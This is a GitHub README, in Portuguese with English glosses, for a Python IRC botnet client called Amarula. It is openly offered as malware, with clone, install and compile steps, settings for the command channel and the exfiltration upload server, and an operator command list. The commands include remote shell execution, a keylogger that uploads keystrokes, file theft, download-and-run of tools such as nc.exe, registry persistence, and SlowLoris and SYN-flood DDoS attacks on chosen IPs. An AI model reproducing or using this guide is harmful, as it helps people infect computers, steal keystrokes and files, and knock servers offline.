 # Amarula IRC Botnet v2.1
<h4> Panama Version </h4>


Botnet client feito em **Python 2.7** *(written in Python 2.7)* <br>
Testado em: **Windows XP, 8, 10**, *(tested on)*<br>
Escrito por: **Carlos Néri Correia** *(coded by)* <br>
Versão: **2.1** *(version)*

## Como funciona? *(how it works)*
O Amarula IRC Botnet é um *botnet client* codado em Python 2.7. O malware nada mais é do que um cliente IRC, especialmente construído, que se conecta a um server IRC e entra em um canal como se fosse um usuario comum.
O Administrador, por sua vez, também estará conectado ao canal, mas através de um programa de cliente IRC normal (como o Hexchat), de forma que, toda vez que o Adm envia uma mensagem para o canal, o BOT interpreta essa mensagem como um comando a ser executado no sistema. São diversas as vantagens de administrar os BOTs através do IRC - Os servers são ativos 24h, não é necessário abrir portas no PC, o IRC é um protocolo teoricamente confiável, entre outras.

## Funções *(features)*
- Executar comandos shell *(shell command execution)* <br>
- Keylogger - Captura de teclas digitadas pelo cliente em tempo real *(real-time keylogging)* <br>
- Listar diretório atual do bot *(list current working directory)* <br>
- Listar todos os arquivos de um *diretorio (list all directory files)* <br>
- Obter ip local e externo do bot *(get local and WAN bot IP)* <br>
- Download de arquivos da web via HTTP *(HTTP web downloading)* <br>
- Upload de arquivos para servidor web via HTTP *(upload bot files to web server)* <br>
- Envio de logs para servidor remoto *(send logs to remote server)* <br>
- Deletar arquivos no BOT *(delete files)* <br>
- Executar arquivos no BOT *(run files)*<br>
- Persistência *(persistence)*<br>
- Ataques DDoS na camada 7 *(layer 7 DDoS attacks)*<br>
- Ataques DDoS na camada 4 *(layer 4 DDoS attacks)*<br>

## Instalação *(install)*
Faça o download do ZIP ou clone o repositório:
    
	$ git clone https://github.com/hackerama/Amarula-Python-Botnet.git

Algumas bibliotecas do python são requeridas:   
    
	$ pip install requests
	$ pip install pypiwin32

A biblioteca pyHook, também é exigida. abaixo o link para baixar o executável de instalação.

**Download pyHook**
https://sourceforge.net/projects/pyhook/

## Configuração *(setup)*
Algumas variáveis precisarão ser definidas ou alteradas, para que a conexão do BOT com o IRC seja feita corretamente. <br>
Toda a administração dos BOTs será feita através de um cliente IRC. O Administrador enviará comandos para o canal onde os BOTs estarão conectados e intrepretarão as mensagens enviadas como comandos. 

***VARIÁVEIS:*** *(variables)* <br>
![Screenshot](https://preview.ibb.co/j7QStm/variables.png)

***ircServer*** *(sets IRC server address)* <br>
Endereço do servidor IRC ao qual o BOT irá se conectar. <br>

***ircPwdCha*** *(sets IRC channel password)*<br>
Define o password do canal IRC ao qual o bot irá se conectar. <br>
Caso o canal não possua password, deixar em branco ("") <br>
Importante setar um password no canal para que outras pessoas não entrem e possam controlar os seus bots.

***ircChanne*** *(sets IRC channel)* <br>
Canal do IRC ao qual o bot irá se conectar. <br>
É interpretando as mensagens enviadas para o canal que o BOT irá executar os comandos internamente no cliente.

***botPass*** *(sets password to activate and connect to the BOTS)* <br>
Define um passoword para ativar, conectar e controlar os bots no canal <br>
 
***botAdmi*** *(Admin Name - NOT OBLIGATORY)* <br>
Define um nome pelo qual os zumbis te chamarão <br>
Não é obrigatório. <br>

***urlUpload*** *(Upload page on remote server)* <br>
Página de upload no servidor remoto, para a função de envio remoto. <br>
Será criado um arquivo *capt-(nome do PC).txt* na mesma pasta de upload.php, no servidor.  

***ldir*** *(sets local directory, dropping directory)* <br>
Diretório local, onde será salvo o arquivo de log. <br>
Diretório para o qual o .exe se copia para ser executado em persistência quando a máquina reiniciar.



## Compilar *(compile)*

	$ pyinstaller -w amarula.py --onefile
    
## Controlando os bots *(usage)*

![Screenshot](https://preview.ibb.co/kwPyzR/help.png)

- [login] para se conectar aos BOTS no canal <br>
  A senha padrão é "raise".
  
		$ USAGE: login <senha> br>
		$ Ex: login raise
		
- [help] para listar os comandos disponíveis <br>
		
		$ USAGE: help <botnick> <br>
		$ Ex: help DESKTOP-PC-3456

- [dir] para vizualizar o diretorio atual do zumbi <br>
		
		$ USAGE: ls <botnick> <br>
		$ Ex: ls DESKTOP-PC-3456

- [ls] para listar o conteudo da pasta atual <br>
		
		$ USAGE: ls <botnick> <br>
		$ Ex: ls DESKTOP-PC-3456

- [ip] para mostrar os ips do bot
		
		$ USAGE: ls <botnick> 
		$ Ex: ip DESKTOP-PC-3456
	
- [upload] para fazer upload de arquivos do bot
  Será feito o upload para o servidor web definido na variável urlUpload 
		
		$ USAGE: $ USAGE: upload <Arquivo> <botnick>
		$ Ex: upload leak.txt DESKTOP-PC-3456

- [download] para baixar arquivos da web para o zumbi
		
		$ USAGE: $ USAGE: download <link> <botnick>
		$ Ex: download http://seusite.com/nc.exe DESKTOP-PC-3456

- [run] para executar um programa ou arquivo

		$ USAGE:  run <programa> <botnick>
		$ Ex: run calc.exe DESKTOP-PC-3456

- [delete] para excluir arquivos
		
		$ USAGE: delete <arquivo> <botnick>
		$ Ex: delete leak.txt DESKTOP-PC-3456

- [keylog start] para ativar o keylogger <br>
  O arquivo de log será upado para o servidor web a cada 100 caracteres digitados. <br>
  Será iniciado um novo processo no sistema do BOT para o keylogger.		

		$ USAGE: keylog start <botnick>
		$ Ex: keylog start DESKTOP-PC-3456
		$ Ex: keylog start wave 


- [keylog stop] para desativar o keylogger
		
		$ USAGE: keylog stop <botnick>
		$ Ex: keylog stop DESKTOP-PC-3456
		$ Ex: keylog stop wave
		

- [slow start] para ativar o ataque SlowLoris <br>
  Ataque DDoS à camada 7 de servidores web com o SlowLoris.
		
		$ USAGE: slow start <socket count> <ip> <port> [<botnick> || <wave>]
		$ Ex: slow start 700 206.285.1.23 80 DESKTOP-PC-3456
		$ Ex: slow start 700 206.285.1.23 80 wave

- [slow stop] para desativar o SlowLoris
		
		$ USAGE: slow stop <botnick> || wave
		$ Ex: slow stop DESKTOP-PC-3456
		$ Ex: slow stop wave

- [plum start] para ativar o ataque Syn Flood <br>
  Ataque DDoS à camada 4 de servidores com o Plum.
		
		$ USAGE: plum start <threads> <ip> <port> [<botnick> || <wave>]
		$ Ex: plum start 10 206.285.1.23 80 DESKTOP-PC-3456
		$ Ex: plum start 10 206.285.1.23 80 wave

- [plum stop] para desativar o Syn Flood
		
		$ USAGE: plum stop <botnick> || wave
		$ Ex: plum stop DESKTOP-PC-3456
		$ Ex: plum stop wave


- [persistence]   para instalar persistencia no registro do Windows
  Instala a persistencia, iniciando o bot toda vez que o PC do cliente iniciar <br>
		
		$ USAGE: persistence <botnick>
		$ Ex: persistence DESKTOP-PC-3456

- [shell] para executar comandos no terminal.
		
		$ USAGE: shell <comando> <botnick>
		$ Ex: shell echo HACKED hack.txt && DIR hack.txt DESKTOP-PC-3456
		
- [sair] para que os bots ativos saiam do canal <br>

		$ USAGE: sair		
		
- [sair] matar todos os BOTs ativos <br>
  Todos os zumbis ativos desconectam-se do IRC
		
		$ USAGE: matar		
## Demonstração *(demo)*

https://youtu.be/yYqAwiaAgrA
